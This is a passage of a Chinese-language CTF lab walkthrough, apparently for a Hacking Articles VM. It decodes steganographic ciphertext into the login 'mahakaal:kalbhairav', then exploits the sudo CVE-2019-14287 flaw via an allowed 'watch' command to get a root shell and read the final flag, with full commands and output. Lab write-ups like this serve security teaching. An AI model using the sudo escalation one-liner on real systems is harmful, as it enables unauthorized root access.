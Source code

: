 通过[这篇文章](https://www.hackingarticles.in/cloakify-factory-a-data-exfiltration-tool-uses-text-based-steganography/  )对密文进行解密，得到明文：`mahakaal:kalbhairav`，显而易见这是用户名和密码。

#### 提权

切换到 *mahakaal* 账户下，查看该账户的 *sudo* 权限，发现可以执行 `/usr/bin/watch`命令。

```shell
shivay@ubuntu:~$ su - mahakaal
Password: 
mahakaal@ubuntu:~$ id
uid=1001(mahakaal) gid=1001(mahakaal) groups=1001(mahakaal)
mahakaal@ubuntu:~$ sudo -l
[sudo] password for mahakaal: 
Matching Defaults entries for mahakaal on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mahakaal may run the following commands on ubuntu:
    (ALL, !root) /usr/bin/watch
```

不过注意到这里的 *sudo* 版本存在 CVE: 2019-14287 漏洞，可以进行本地提权。最后提权到 *root* 账户，得到flag。

```shell
ahakaal@ubuntu:~$ sudo --version
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
mahakaal@ubuntu:~$ sudo -u#-1 watch -x sh -c 'reset; exec sh 1>&0 2>&0' -u
# id
uid=0(root) gid=1001(mahakaal) groups=1001(mahakaal)
# whoami
root
# cd /root
# ls
final.txt
# cat final.txt 


     .           ]@&L           .
      Jw         #@&&         zM
      '|$w      ,]@&$L      ,$\r
       k|$L     ]]@$$$     ,@|j
       ]@!$     j]@&$$W    $|p[
        @@j$   ]j]N&$$@   $@@@
        $&@B~  jj]B&$$@   @@$@
        #R&&[  `]]@&$$*  ]$$@N
        j%%@$    "@&M    ]RN%k
        |" 7$     $&     ]F%"|

......

!! Congrats you have finished this task !!

Contact us here:

Hacking Articles : https://twitter.com/rajchandel/
Aarti Singh: https://www.linkedin.com/in/aarti-singh-353698114/


+-+-+-+-+-+ +-+-+-+-+-+-+-+
 |E|n|j|o|y| |H|A|C|K|I|N|G|
 +-+-+-+-+-+ +-+-+-+-+-+-+-+
____________________________________
```